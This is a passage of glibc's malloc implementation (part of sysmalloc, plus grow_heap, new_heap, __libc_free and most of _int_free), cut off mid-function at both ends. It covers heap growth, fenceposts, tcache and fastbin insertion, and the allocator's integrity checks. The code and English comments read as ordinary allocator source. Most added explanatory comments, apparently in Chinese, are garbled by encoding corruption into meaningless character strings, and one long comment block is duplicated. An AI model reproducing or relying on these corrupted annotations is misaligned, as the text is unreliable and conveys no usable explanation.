// å¦‚æœ sbrk()è¿”å›å¤±è´¥ï¼Œæˆ–是 sbrk()ä¸å¯ç”¨ï¼Œä½¿ç”¨ mmap()代替，é‡æ–°è®¡ç®—所需分é…的内å˜
// 大å°å¹¶æŒ‰é¡µå¯¹é½ï¼Œå¦‚æœé‡æ–°è®¡ç®—çš„ size å°äº 1M，将 size 设为 1M，也就是说使用 mmap()
// 作为 morecore 函数分é…的最å°å†…å˜å—大å°ä¸º 1M
/* Cannot merge with old top, so add its size back in */
if (contiguous (av))
size = ALIGN_UP(size + old_size, pagesize);
/* If we are relying on mmap as backup, then use larger units */
if ((unsigned long) (size) < (unsigned long) (MMAP_AS_MORECORE_SIZE))
size = MMAP_AS_MORECORE_SIZE;
/* Don't try if size wraps around 0 */
// 如æœæ‰€éœ€åˆ†é…的内å˜å¤§å°åˆæ³•ï¼Œä½¿ç”¨ mmap()函数分é…内å˜ã€‚如æœåˆ†é…æˆåŠŸï¼Œæ›´æ–° brk
// å’Œ snd_brk，并将当å‰åˆ†é…区å±æ€§è®¾ç½®ä¸ºå¯åˆ†é…ä¸è¿ç»è™šæ‹Ÿå†…å˜å—
if ((unsigned long) (size) > (unsigned long) (nb)) {
char *mbrk = (char *) (MMAP (0, size, PROT_READ | PROT_WRITE, 0));
if (mbrk != MAP_FAILED) {
/* We do not need, and cannot use, another sbrk call to find end */
brk = mbrk;
snd_brk = brk + size;
/*
Record that we no longer have a contiguous sbrk region.
After the first time mmap is used as backup, we do not
ever rely on contiguous space since this could incorrectly
bridge regions.
*/
set_noncontiguous (av);
}
}
}
//如æœbrkåˆæ³•ï¼Œå³sbrk()或mmap()分é…æˆåŠŸï¼Œå¦‚æœsbrk_base还没有åˆå§‹åŒ–，
//æ›´æ–° sbrk_base 和当å‰åˆ†é…区的内å˜åˆ†é…总é‡
if (brk != (char *) (MORECORE_FAILURE)) {
if (mp_.sbrk_base == 0)
mp_.sbrk_base = brk;
av->system_mem += size;
/*
If MORECORE extends previous space, we can likewise extend top size.
*/
// å¦‚æœ sbrk()分é…æˆåŠŸï¼Œæ›´æ–° top chunk 的大å°ï¼Œå¹¶è®¾å®š top chunk çš„å‰ä¸€ä¸ª chunk å¤„äº inuse
// 状æ€ã€‚如æœå½“å‰åˆ†é…区å¯åˆ†é…è¿ç»è™šæ‹Ÿå†…å˜ï¼ŒåŸ top chunk 的大å°å¤§äº 0，但新的 brk 值å°
// äºåŸ top chunk 的结æŸåœ°å€ï¼Œåˆ™å‡ºé”™äº†
if (brk == old_end && snd_brk == (char *) (MORECORE_FAILURE))
set_head (old_top, (size + old_size) | PREV_INUSE);
else if (contiguous (av) && old_size && brk < old_end)
/* Oops! Someone else killed our space.. Can't touch anything. */
malloc_printerr("break adjusted to free malloc space");
/*
Otherwise, make adjustments:
* If the first time through or noncontiguous, we need to call sbrk
just to find out where the end of memory lies.
* We need to ensure that all returned chunks from malloc will meet
MALLOC_ALIGNMENT
* If there was an intervening foreign sbrk, we need to adjust sbrk
request size to account for fact that we will not be able to
combine new space with existing space in old_top.
* Almost all systems internally allocate whole pages at a time, in
which case we might as well use the whole last page of request.
So we allocate enough more memory to hit a page boundary now,
which in turn causes future contiguous calls to page-align.
*/
// 执行到这个分支，æ„å‘³ç€ sbrk()è¿”å›çš„ brk 值大äºåŸ top chunk 的结æŸåœ°å€ï¼Œ
// 那么新的地å€ä¸åŸ top chunk 的地å€ä¸è¿ç»ï¼Œå¯èƒ½æ˜¯ç”±äºå¤–部其它地方调用 sbrk()函数，
// 这里需è¦å¤„ç†åœ°å€çš„é‡æ–°å¯¹é½é—®é¢˜
else {
front_misalign = 0;
end_misalign = 0;
correction = 0;
aligned_brk = brk;
/* handle contiguous cases */
if (contiguous (av)) {
/* Count foreign sbrk as system_mem. */
// 如æœæœ¬åˆ†é…区å¯åˆ†é…è¿ç»è™šæ‹Ÿå†…å˜ï¼Œå¹¶ä¸”有外部调用了 sbrk()函数，
// 将外部调用 sbrk()分é…的内å˜è®¡å…¥å½“å‰åˆ†é…区所分é…内å˜ç»Ÿè®¡ä¸
if (old_size)
av->system_mem += brk - old_end;
/* Guarantee alignment of first new chunk made from this space */
// 计算当å‰çš„ brk è¦çŸ«æ£çš„å—节数æ®ï¼Œä¿è¯ brk 地å€æŒ‰ MALLOC_ALIGNMENT 对é½
front_misalign = (INTERNAL_SIZE_T)chunk2mem (brk) & MALLOC_ALIGN_MASK;
if (front_misalign > 0) {
/*
Skip over some bytes to arrive at an aligned position.
We don't need to specially mark these wasted front bytes.
They will never be accessed anyway because
prev_inuse of av->top (and any chunk created from its start)
is always true after initialization.
*/
correction = MALLOC_ALIGNMENT - front_misalign;
aligned_brk += correction;
}
/*
If this isn't adjacent to existing space, then we will not
be able to merge with old_top space, so must add to 2nd request.
*/
// ç”±äºåŸ top chunk 的地å€ä¸å½“å‰ brk ä¸ç›¸é‚»ï¼Œä¹Ÿå°±ä¸èƒ½å†ä½¿ç”¨åŸ top chunk 的内å˜äº†ï¼Œéœ€
// è¦é‡æ–°ä¸ºæ‰€éœ€ chunk 分é…足够的内å˜ï¼Œå°†åŸ top chunk 的大å°åŠ 到矫æ£å€¼ä¸ï¼Œä»å½“å‰ brk ä¸
// 分é…所需 chunk，计算出未对é½çš„ chunk 结æŸåœ°å€ end_misalign，然åå°† end_misalign 按照
// 页对é½è®¡ç®—出需è¦çŸ«æ£çš„å—èŠ‚æ•°åŠ åˆ°çŸ«æ£å€¼ä¸Šã€‚然åå†è°ƒç”¨ sbrk()分é…矫æ£å€¼å¤§å°çš„内å˜ï¼Œ
// å¦‚æœ sbrk()分é…æˆåŠŸï¼Œåˆ™å½“å‰çš„ top chunk ä¸å¯ä»¥åˆ†é…出所需的è¿ç»å†…å˜çš„ chunk
correction += old_size;
/* Extend the end address to hit a page boundary */
end_misalign = (INTERNAL_SIZE_T)(brk + size + correction);
correction += (ALIGN_UP(end_misalign, pagesize)) - end_misalign;
assert(correction >= 0);
snd_brk = (char *) (MORECORE(correction));
/*
If can't allocate correction, try to at least find out current
brk. It might be enough to proceed without failing.
Note that if second sbrk did NOT fail, we assume that space
is contiguous with first sbrk. This is a safe assumption unless
program is multithreaded but doesn't use locks and a foreign sbrk
occurred between our first and second calls.
*/
// å¦‚æœ sbrk()æ‰§è¡Œå¤±è´¥ï¼Œæ›´æ–°å½“å‰ brk 的结æŸåœ°å€
if (snd_brk == (char *) (MORECORE_FAILURE)) {
correction = 0;
snd_brk = (char *) (MORECORE(0));
}
// å¦‚æœ sbrk()执行æˆåŠŸï¼Œå¹¶ä¸”有 morecore hook 函数å˜åœ¨ï¼Œæ‰§è¡Œè¯¥ hook 函数
else {
/* Call the `morecore' hook if necessary. */
void (*hook)(void) = atomic_forced_read(__after_morecore_hook);
if (__builtin_expect(hook != NULL, 0))
(*hook)();
}
}
/* handle non-contiguous cases */
// 执行到这里，æ„å‘³ç€ brk 是用 mmap()分é…çš„
else {
if (MALLOC_ALIGNMENT == 2 * SIZE_SZ)
/* MORECORE/mmap must correctly align */
assert(((unsigned long) chunk2mem (brk) & MALLOC_ALIGN_MASK) == 0);
// 对é½æ“作
else {
front_misalign = (INTERNAL_SIZE_T)chunk2mem (brk) & MALLOC_ALIGN_MASK;
if (front_misalign > 0) {
/*
Skip over some bytes to arrive at an aligned position.
We don't need to specially mark these wasted front bytes.
They will never be accessed anyway because
prev_inuse of av->top (and any chunk created from its start)
is always true after initialization.
*/
aligned_brk += MALLOC_ALIGNMENT - front_misalign;
}
}
/* Find out current end of memory */
// å¦‚æœ brk 的结æŸåœ°å€é法，使用 morecore è·å¾—å½“å‰ brk 的结æŸåœ°å€
if (snd_brk == (char *) (MORECORE_FAILURE)) {
snd_brk = (char *) (MORECORE(0));
}
}
/* Adjust top based on results of second sbrk */
// å¦‚æœ brk 的结æŸåœ°å€åˆæ³•ï¼Œè®¾ç½®å½“å‰åˆ†é…区的 top chunk 为 brk，
// 设置 top chunk 的大å°ï¼Œå¹¶æ›´æ–°åˆ†é…区的总分é…内å˜é‡
if (snd_brk != (char *) (MORECORE_FAILURE)) {
av->top = (mchunkptr) aligned_brk;
set_head (av->top, (snd_brk - aligned_brk + correction) | PREV_INUSE);
av->system_mem += correction;
/*
If not the first time through, we either have a
gap due to foreign sbrk or a non-contiguous region. Insert a
double fencepost at old_top to prevent consolidation with space
we don't own. These fenceposts are artificial chunks that are
marked as inuse and are in any case too small to use. We need
two to make sizes and alignments work out.
*/
// è®¾ç½®åŸ top chunk çš„ fencepost，fencepost éœ€è¦ MINSIZE 大å°çš„内å˜ç©ºé—´ï¼Œå°†è¯¥ old_size
// å‡å» MINSIZE å¾—åˆ°åŸ top chunk 的有效内å˜ç©ºé—´ï¼Œæˆ‘们å¯ä»¥ç¡®ä¿¡åŸ top chunk 的有效内å˜ç©ºé—´
// ä¸€å®šå¤§äº MINSIZEï¼Œå°†åŸ top chunk 切分æˆç©ºé—² chunk å’Œ fencepost 两部分，首先设置切分出
// æ¥çš„ chunk 的大å°ä¸º old_sizeï¼Œå¹¶æ ‡è¯†å‰ä¸€ä¸ª chunk å¤„äº inuse 状æ€ï¼ŒåŸ top chunk 切分出æ¥
// çš„chunk本应处äºç©ºé—²çŠ¶æ€ï¼Œä½†fencepost的第一个chunkå´æ ‡è¯†å‰ä¸€ä¸ªchunk为inuse状æ€ï¼Œ
// 然åå¼ºåˆ¶å°†è¯¥å¤„äº inuse 状æ€çš„ chunk 调用_int_free()函数释放æ‰ã€‚然å设置 fencepost 的第
// 一个 chunk 的大å°ä¸º 2*SIZE_SZï¼Œå¹¶æ ‡è¯†å‰ä¸€ä¸ª chunk å¤„äº inuse 状æ€ï¼Œç„¶å设置 fencepost
// 的第二个 chunk çš„ size 为 2*SIZE_SZï¼Œå¹¶æ ‡è¯†å‰ä¸€ä¸ª chunk å¤„äº inuse 状æ€ã€‚这里的主分é…区
// çš„ fencepost ä¸é主分é…区的 fencepost ä¸åŒï¼Œä¸»åˆ†é…区 fencepost 的第二个 chunk 的大å°è®¾
// 置为 2*SIZE_SZ，而é主分é…区的 fencepost 的第二个 chunk 的大å°è®¾ç½®ä¸º 0
if (old_size != 0) {
/*
Shrink old_top to insert fenceposts, keeping size a
multiple of MALLOC_ALIGNMENT. We know there is at least
enough space in old_top to do this.
*/
old_size = (old_size - 4 * SIZE_SZ) & ~MALLOC_ALIGN_MASK;
set_head (old_top, old_size | PREV_INUSE);
/*
Note that the following assignments completely overwrite
old_top when old_size was previously MINSIZE. This is
intentional. We need the fencepost, even if old_top otherwise gets
lost.
*/
set_head (chunk_at_offset(old_top, old_size),
(2 * SIZE_SZ) | PREV_INUSE);
set_head (chunk_at_offset(old_top, old_size + 2 * SIZE_SZ),
(2 * SIZE_SZ) | PREV_INUSE);
/* If possible, release the rest. */
if (old_size >= MINSIZE)
{
_int_free(av, old_top, 1);
}
}
}
}
}
} /* if (av != &main_arena) */
// 如æœå½“å‰åˆ†é…区所分é…的内å˜é‡å¤§äºè®¾ç½®çš„最大值，更新当å‰åˆ†é…区最大分é…的内å˜é‡
if ((unsigned long) av->system_mem > (unsigned long) (av->max_system_mem))
av->max_system_mem = av->system_mem;
check_malloc_state (av);
/* finally, do the allocation */
p = av->top;
size = chunksize (p);
/* check that one of the above allocation paths succeeded */
// 如æœå½“å‰ top chunk ä¸å·²ç»æœ‰è¶³å¤Ÿçš„内å˜æ¥åˆ†é…所需的 chunk，
// ä»å½“å‰çš„ top chunk ä¸åˆ†é…所需的 chunk 并返å›
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
{
remainder_size = size - nb;
remainder = chunk_at_offset (p, nb);
av->top = remainder;
set_head (p, nb | PREV_INUSE | (av != &main_arena ? NON_MAIN_ARENA : 0));
set_head (remainder, remainder_size | PREV_INUSE);
check_malloced_chunk (av, p, nb);
return chunk2mem (p);
}
/* catch all failure paths */
__set_errno(ENOMEM);
return 0;
}
static int grow_heap (heap_info *h, long diff)
{
size_t pagesize = GLRO (dl_pagesize);
long new_size;
diff = ALIGN_UP (diff, pagesize);
new_size = (long) h->size + diff;
if ((unsigned long) new_size > (unsigned long) HEAP_MAX_SIZE)
return -1;
if ((unsigned long) new_size > h->mprotect_size)
{
if (__mprotect ((char *) h + h->mprotect_size,
(unsigned long) new_size - h->mprotect_size,
PROT_READ | PROT_WRITE) != 0)
return -2;
h->mprotect_size = new_size;
}
h->size = new_size;
LIBC_PROBE (memory_heap_more, 2, h, h->size);
return 0;
}
static heap_info *new_heap (size_t size, size_t top_pad)
{
size_t pagesize = GLRO (dl_pagesize);
char *p1, *p2;
unsigned long ul;
heap_info *h;
/* 调整 size 的大å°ï¼Œsize 的最å°å€¼ä¸º 32K,最大值 HEAP_MAX_SIZE 在ä¸åŒ */
/* 的系统上ä¸åŒï¼Œåœ¨ 32 ä½ç³»ç»Ÿä¸º 1M，64 ä½ç³»ç»Ÿä¸º 64M，将 size 的大å°è°ƒ */
/* 整到最å°å€¼ä¸æœ€å¤§å€¼ä¹‹é—´ï¼Œå¹¶ä»¥é¡µå¯¹é½ï¼Œå¦‚æœ size 大äºæœ€å¤§å€¼ï¼Œç›´æ¥æŠ¥é”™ */
if (size + top_pad < HEAP_MIN_SIZE)
size = HEAP_MIN_SIZE;
else if (size + top_pad <= HEAP_MAX_SIZE)
size += top_pad;
else if (size > HEAP_MAX_SIZE)
return 0;
else
size = HEAP_MAX_SIZE;
size = ALIGN_UP (size, pagesize);
/* A memory region aligned to a multiple of HEAP_MAX_SIZE is needed.
No swap space needs to be reserved for the following large
mapping (on Linux, this is the case for all non-writable mappings
anyway). */
/* 全局å˜é‡ aligned_heap_area 是上一次调用 mmap 分é…内å˜çš„结æŸè™šæ‹Ÿåœ°å€ï¼Œå¹¶å·²ç»æŒ‰ */
/* ç…§ HEAP_MAX_SIZE 大å°å¯¹é½ã€‚å¦‚æœ aligned_heap_area ä¸ä¸ºç©ºï¼Œå°è¯•ä»ä¸Šæ¬¡æ˜ å°„ç»“æŸ */
/* 地å€å¼€å§‹æ˜ 射大å°ä¸º HEAP_MAX_SIZE 的内å˜å—，由äºå…¨å±€å˜é‡ aligned_heap_area 没 */
/* 有é”ä¿æŠ¤ï¼Œå¯èƒ½å˜åœ¨å¤šä¸ªçº¿ç¨‹åŒæ—¶ mmap()å‡½æ•°ä» aligned_heap_area å¼€å§‹æ˜ å°„æ–°çš„è™šæ‹Ÿ */
/* 内å˜å—，æ“作系统会ä¿è¯åªä¼šæœ‰ä¸€ä¸ªçº¿ç¨‹ä¼šæˆåŠŸï¼Œå…¶å®ƒåœ¨åŒä¸€åœ°å€æ˜ 射新虚拟内å˜å—都会失败。*/
/* æ— è®ºæ˜ å°„æ˜¯å¦æˆåŠŸï¼Œéƒ½å°†å…¨å±€å˜é‡ aligned_heap_area 设置为 NULL。如æœæ˜ å°„æˆåŠŸï¼Œä½† */
/* è¿”å›çš„虚拟地å€ä¸æ˜¯æŒ‰ HEAP_MAX_SIZE 大å°å¯¹é½çš„，å–æ¶ˆè¯¥åŒºåŸŸçš„æ˜ å°„ï¼Œæ˜ å°„å¤±è´¥ */
p2 = MAP_FAILED;
if (aligned_heap_area)
{
p2 = (char *) MMAP (aligned_heap_area, HEAP_MAX_SIZE, PROT_NONE,
MAP_NORESERVE);
aligned_heap_area = NULL;
if (p2 != MAP_FAILED && ((unsigned long) p2 & (HEAP_MAX_SIZE - 1)))
{
__munmap (p2, HEAP_MAX_SIZE);
p2 = MAP_FAILED;
}
}
/* 全局å˜é‡ aligned_heap_area 是上一次调用 mmap 分é…内å˜çš„结æŸè™šæ‹Ÿåœ°å€ï¼Œå¹¶å·²ç»æŒ‰ */
/* ç…§ HEAP_MAX_SIZE 大å°å¯¹é½ã€‚å¦‚æœ aligned_heap_area ä¸ä¸ºç©ºï¼Œå°è¯•ä»ä¸Šæ¬¡æ˜ å°„ç»“æŸ */
/* 地å€å¼€å§‹æ˜ 射大å°ä¸º HEAP_MAX_SIZE 的内å˜å—，由äºå…¨å±€å˜é‡ aligned_heap_area 没有é”ä¿æŠ¤ï¼Œå¯
能å˜åœ¨å¤šä¸ªçº¿ç¨‹åŒæ—¶ mmap()å‡½æ•°ä» aligned_heap_area å¼€å§‹æ˜ å°„æ–°çš„è™šæ‹Ÿå†…å˜å—，æ“作系统
会ä¿è¯åªä¼šæœ‰ä¸€ä¸ªçº¿ç¨‹ä¼šæˆåŠŸï¼Œå…¶å®ƒåœ¨åŒä¸€åœ°å€æ˜ 射新虚拟内å˜å—éƒ½ä¼šå¤±è´¥ã€‚æ— è®ºæ˜ å°„æ˜¯å¦
æˆåŠŸï¼Œéƒ½å°†å…¨å±€å˜é‡ aligned_heap_area 设置为 NULL。如æœæ˜ å°„æˆåŠŸï¼Œä½†è¿”å›çš„虚拟地å€ä¸
是按 HEAP_MAX_SIZE 大å°å¯¹é½çš„，å–æ¶ˆè¯¥åŒºåŸŸçš„æ˜ å°„ï¼Œæ˜ å°„å¤±è´¥ã€‚*/
if (p2 == MAP_FAILED)
{
p1 = (char *) MMAP (0, HEAP_MAX_SIZE << 1, PROT_NONE, MAP_NORESERVE);
/* æ˜ å°„ 2 å€ HEAP_MAX_SIZE 大å°çš„虚拟内å˜æˆåŠŸï¼Œå°†å¤§äºç‰äº p1 并按 HEAP_MAX_SIZE */
/* 大å°å¯¹é½çš„第一个虚拟地å€èµ‹å€¼ç»™ p2，p2 作为 sub_heap 的起始虚拟地å€ï¼Œp2+HEAP_MAX_SIZE */
/* 作为 sub_heap 的结æŸåœ°å€ï¼Œå¹¶å°† sub_heap 的结æŸåœ°å€èµ‹å€¼ç»™å…¨å±€å˜é‡aligned_heap_area，*/
/* 最å还需è¦å°†å¤šä½™çš„虚拟内å˜è¿˜å›ç»™æ“作系统 */
if (p1 != MAP_FAILED)
{
p2 = (char *) (((unsigned long) p1 + (HEAP_MAX_SIZE - 1))
& ~(HEAP_MAX_SIZE - 1));
ul = p2 - p1;
if (ul)
__munmap (p1, ul);
else
aligned_heap_area = p2 + HEAP_MAX_SIZE;
__munmap (p2 + HEAP_MAX_SIZE, HEAP_MAX_SIZE - ul);
}
else
{
/* Try to take the chance that an allocation of only HEAP_MAX_SIZE
is already aligned. */
/* æ˜ å°„ 2 å€ HEAP_MAX_SIZE 大å°çš„虚拟内å˜å¤±è´¥äº†ï¼Œå†å°è¯•æ˜ å°„ HEAP_MAX_SIZE */
/* 大å°çš„虚拟内å˜ï¼Œå¦‚æœå¤±è´¥ï¼Œè¿”å›ï¼›å¦‚æœæˆåŠŸï¼Œä½†è¯¥è™šæ‹Ÿåœ°å€ä¸æ˜¯æŒ‰ç…§ HEAP_MAX_SIZE */
/* 大å°å¯¹é½çš„ï¼Œè¿”å› */
p2 = (char *) MMAP (0, HEAP_MAX_SIZE, PROT_NONE, MAP_NORESERVE);
if (p2 == MAP_FAILED)
return 0;
if ((unsigned long) p2 & (HEAP_MAX_SIZE - 1))
{
__munmap (p2, HEAP_MAX_SIZE);
return 0;
}
}
}
/* 调用 mprotect()函数将 size 大å°çš„内å˜è®¾ç½®ä¸ºå¯è¯»å¯å†™ï¼Œå¦‚æœå¤±è´¥ï¼Œ*/
/* 解除整个 sub_heap çš„æ˜ å°„ã€‚ç„¶åæ›´æ–° heap_info å®ä¾‹ä¸çš„相关å—段 */
if (__mprotect (p2, size, PROT_READ | PROT_WRITE) != 0)
{
__munmap (p2, HEAP_MAX_SIZE);
return 0;
}
h = (heap_info *) p2;
h->size = size;
h->mprotect_size = size;
LIBC_PROBE (memory_heap_new, 2, h, h->size);
return h;
}
/*
free(void* p)
Releases the chunk of memory pointed to by p, that had been previously
allocated using malloc or a related routine such as realloc.
It has no effect if p is null. It can have arbitrary (i.e., bad!)
effects if p has already been freed.
Unless disabled (using mallopt), freeing very large spaces will
when possible, automatically trigger operations that give
back unused memory to the system, thus reducing program footprint.
*/
void __libc_free(void *mem) {
mstate ar_ptr;
mchunkptr p; /* chunk corresponding to mem */
// 如æœå˜åœ¨ __free_hook 则执行其内容
void (*hook)(void *, const void *)
= atomic_forced_read(__free_hook);
if (__builtin_expect(hook != NULL, 0)) {
(*hook)(mem, RETURN_ADDRESS (0));
return;
}
// free NULL
if (mem == 0) /* free(0) has no effect */
return;
// 拿到程åºæŒ‡é’ˆ
p = mem2chunk (mem);
// å¦‚æœ chunk 是 mmap 函数返å›çš„，则使用 munmap_chunk 函数释放
if (chunk_is_mmapped (p)) /* release mmapped memory. */
{
/* See if the dynamic brk/mmap threshold needs adjusting.
Dumped fake mmapped chunks do not affect the threshold. */
// 如æœå¼€å¯äº†mmap分é…阈值动æ€è°ƒæ•´æœºåˆ¶
// 如æœå½“å‰ free çš„ chunk 的大å°å¤§äºè®¾ç½®çš„ mmap 分é…阈值
// 且å°äº mmap 分é…阈值的最大值
if (!mp_.no_dyn_threshold
&& chunksize_nomask (p) > mp_.mmap_threshold
&& chunksize_nomask (p) <= DEFAULT_MMAP_THRESHOLD_MAX
&& !DUMPED_MAIN_ARENA_CHUNK (p)) {
// å°†å½“å‰ chunk 的大å°èµ‹å€¼ç»™ mmap 分é…阈值
mp_.mmap_threshold = chunksize (p);
// mmap 收缩阈值为 mmap分é…阈值的 2 å€
mp_.trim_threshold = 2 * mp_.mmap_threshold;
LIBC_PROBE(memory_mallopt_free_dyn_thresholds, 2,
mp_.mmap_threshold, mp_.trim_threshold);
}
//然å调用 munmap_chunk释放函数
munmap_chunk(p);
return;
}
MAYBE_INIT_TCACHE ();
// è·å¾—æŒ‡å‘ arena 的指针
ar_ptr = arena_for_chunk (p);
// 使用 _int_free 释放 chunk
_int_free(ar_ptr, p, 0);
}
static void
_int_free(mstate av, mchunkptr p, int have_lock) {
INTERNAL_SIZE_T size; /* its size */
mfastbinptr *fb; /* associated fastbin */
mchunkptr nextchunk; /* next contiguous chunk */
INTERNAL_SIZE_T nextsize; /* its size */
int nextinuse; /* true if nextchunk is used */
INTERNAL_SIZE_T prevsize; /* size of previous contiguous chunk */
mchunkptr bck; /* misc temp for linking */
mchunkptr fwd; /* misc temp for linking */
// #define SIZE_BITS (PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
// #define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))
// #define chunksize_nomask(p) ((p)->mchunk_size)
// 拿到å»é™¤æ ‡å¿—ä½çš„ size
size = chunksize (p);
/* Little security check which won't hurt performance: the
allocator never wrapps around at the end of the address space.
Therefore we can exclude some size values which might appear
here by accident or by "design" from some intruder. */
// å¦‚æœ chunk 的指针地å€æº¢å‡º
// 或 chunk 并没有对é½
if (__builtin_expect((uintptr_t) p > (uintptr_t) - size, 0)
|| __builtin_expect(misaligned_chunk (p), 0))
malloc_printerr("free(): invalid pointer");
/* We know that each chunk is at least MINSIZE bytes in size or a
multiple of MALLOC_ALIGNMENT. */
// å¦‚æœ size å°äº MINSIZE
// 或者 size 没有对其
if (__glibc_unlikely(size < MINSIZE || !aligned_OK (size)))
malloc_printerr("free(): invalid size");
// 啥也没干
check_inuse_chunk(av, p);
#if USE_TCACHE
{
// 拿到对应的 tcache 索引
size_t tc_idx = csize2tidx (size);
// 如æœå¼€å¯äº† tcache
// 且 索引没有超过出范围
// 且 对应的 tcache 未满
if (tcache
&& tc_idx < mp_.tcache_bins
&& tcache->counts[tc_idx] < mp_.tcache_count)
{
// 将该 chunk 放在对应的 tcache 里
tcache_put (p, tc_idx);
return;
}
}
#endif
/*
If eligible, place chunk on a fastbin so it can be found
and used quickly in malloc.
*/
// å¦‚æœ size 在 fastbin 的范围之内
if ((unsigned long) (size) <= (unsigned long) (get_max_fast())
// 如æœè®¾ç½®äº† TRIM_FASTBINS，ä¸è¦å°†é 近顶部的å—放入 fastbins
// 但 TRIM_FASTBINS 默认为 0ï¼Œå³ top_chunk ä¸ä¼šåˆå¹¶ä¸å®ƒç›¸é‚»çš„ fastbin å—
#if TRIM_FASTBINS
/*
If TRIM_FASTBINS set, don't place chunks
bordering top into fastbins
*/
&& (chunk_at_offset(p, size) != av->top)
#endif
) {
// 检查下一个 chunk 的大å°ï¼Œä¸èƒ½å°äº 2 * SIZE_SZ ，也ä¸èƒ½å¤§äº av->system_mem,
if (__builtin_expect(chunksize_nomask (chunk_at_offset(p, size))
<= 2 * SIZE_SZ, 0)
|| __builtin_expect(chunksize (chunk_at_offset(p, size))
>= av->system_mem, 0)) {
bool fail = true;
/* We might not have a lock at this point and concurrent modifications
of system_mem might result in a false positive. Redo the test after
getting the lock. */
if (!have_lock) {
__libc_lock_lock(av->mutex);
fail = (chunksize_nomask (chunk_at_offset(p, size)) <= 2 * SIZE_SZ
|| chunksize (chunk_at_offset(p, size)) >= av->system_mem);
__libc_lock_unlock(av->mutex);
}
if (fail)
malloc_printerr("free(): invalid next size (fast)");
}
// 释放之å‰å°† chunk 填为 perturb_byte
free_perturb(chunk2mem(p), size - 2 * SIZE_SZ);
// 设立 have_fastchunks æ ‡å¿—ä½ï¼Œè¡¨æ˜ fastbin ä¸æœ‰å€¼
atomic_store_relaxed(&av->have_fastchunks, true);
// 拿到对应的 fastbin 索引
unsigned int idx = fastbin_index(size);
// 拿到第一个元ç´
fb = &fastbin (av, idx);
/* Atomically link P to its fastbin: P->FD = *FB; *FB = P; */
mchunkptr old = *fb, old2;
if (SINGLE_THREAD_P) {
/* Check that the top of the bin is not the record we are going to
add (i.e., double free). */
// double free
if (__builtin_expect(old == p, 0))
malloc_printerr("double free or corruption (fasttop)");
// 将新释放的 chunk æ’入链ä¸
p->fd = old;
*fb = p;
} else
do {
/* Check that the top of the bin is not the record we are going to
add (i.e., double free). */
if (__builtin_expect(old == p, 0))
malloc_printerr("double free or corruption (fasttop)");
p->fd = old2 = old;
} while ((old = catomic_compare_and_exchange_val_rel(fb, p, old2))
!= old2);
/* Check that size of fastbin chunk at the top is the same as
size of the chunk that we are adding. We can dereference OLD
only if we have the lock, otherwise it might have already been
allocated again. */
// 检查 该 chunk 是å¦æ”¾å¯¹äº†åœ°æ–¹
if (have_lock && old != NULL
&& __builtin_expect(fastbin_index (chunksize(old)) != idx, 0))
malloc_printerr("invalid fastbin entry (free)");
}
/*
Consolidate other non-mmapped chunks as they arrive.
*/
// size ä¸åœ¨ fastbin 内
// chunk ä¸æ˜¯ mmap 分é…çš„
else if (!chunk_is_mmapped(p)) {
/* If we're single-threaded, don't lock the arena. */
if (SINGLE_THREAD_P)
have_lock = true;
if (!have_lock)
__libc_lock_lock(av->mutex);
// 拿到下一个 chunk
nextchunk = chunk_at_offset(p, size);
/* Lightweight tests: check whether the block is already the
top block. */
// 如æœé‡Šæ”¾çš„ chunk 是 top_chunk
if (__glibc_unlikely(p == av->top))
malloc_printerr("double free or corruption (top)");
/* Or whether the next chunk is beyond the boundaries of the arena. */
// 下一个å—超出了 arena 的边界
if (__builtin_expect(contiguous (av)
&& (char *) nextchunk
>= ((char *) av->top + chunksize(av->top)), 0))
malloc_printerr("double free or corruption (out)");
/* Or whether the block is actually not marked used. */
// 下一个 chunk çš„ prev_inuse æ ‡å¿—ä½ä¸º 0，å³å‰ä¸€ä¸ª chunk å·²ç»è¢«é‡Šæ”¾è¿‡äº†
if (__glibc_unlikely(!prev_inuse(nextchunk)))
malloc_printerr("double free or corruption (!prev)");
// 拿到下一个 chunk 的 size
nextsize = chunksize(nextchunk);
// å¦‚æœ ä¸‹ä¸€ä¸ª chunk çš„ size å°äº 2 * SIZE_SZ 或 å¤§äº av->system_mem
if (__builtin_expect(chunksize_nomask (nextchunk) <= 2 * SIZE_SZ, 0)
|| __builtin_expect(nextsize >= av->system_mem, 0))
malloc_printerr("free(): invalid next size (normal)");
// 将该 chunk 的 data 部分填充为 perturb_byte
free_perturb(chunk2mem(p), size - 2 * SIZE_SZ);
/* consolidate backward */
// 如æœé‡Šæ”¾å—之å‰çš„å—也是 free çš„
if (!prev_inuse(p)) {
// 拿到上一个 chunk 的 size
prevsize = prev_size (p);
size += prevsize;
// 拿到å‰ä¸€ä¸ª chunk
p = chunk_at_offset(p, -((long) prevsize));
// å°†å‰ä¸€ä¸ª chunk å–消链æ¥
unlink(av, p, bck, fwd);
}
// 如æœä¸‹ä¸€ä¸ª chunk ä¸ä¸º top_chunk
if (nextchunk != av->top) {
/* get and clear inuse bit */
// 查看下一个 chunk 是å¦ä¸º 释放状æ€
nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
/* consolidate forward */
// 如æœä¸‹ä¸€ä¸ª chunk 也是释放状æ€
if (!nextinuse) {
// 将下一个 chunk å–消链æ¥
unlink(av, nextchunk, bck, fwd);
size += nextsize;
}
// 如æœä¸‹ä¸€ä¸ª chunk ä»å¤„äºä½¿ç”¨çŠ¶æ€
else
// 清除下一个 chunk çš„ prev_inuse ä½
clear_inuse_bit_at_offset(nextchunk, 0);
/*
Place the chunk in unsorted chunk list. Chunks are
not placed into regular bins until after they have
been given one chance to be used in malloc.
*/
// 拿到 unsorter_bin
bck = unsorted_chunks(av);
// 拿到链上的第一个 chunk
fwd = bck->fd;
// 检查åŒå‘链æ¥å®Œæ•´æ€§
if (__glibc_unlikely(fwd->bk != bck))
malloc_printerr("free(): corrupted unsorted chunks");
// 将释放的 chunk åŠ å…¥é“¾ä¸
p->fd = fwd;
p->bk = bck;
// å¦‚æœ size 在 lage_bin 的范围之ä¸
// 清除 nextsize 域
if (!in_smallbin_range(size)) {
p->fd_nextsize = NULL;
p->bk_nextsize = NULL;
}
// 完æˆé“¾æ¥
bck->fd = p;
fwd->bk = p;
// 设立 æ ‡å¿—ä½
set_head(p, size | PREV_INUSE);
set_foot(p, size);
// 啥也没干
check_free_chunk(av, p);
}
/*
If the chunk borders the current high end of memory,
consolidate into top
*/
// ä¸ top_chunk 进行åˆå¹¶
else {
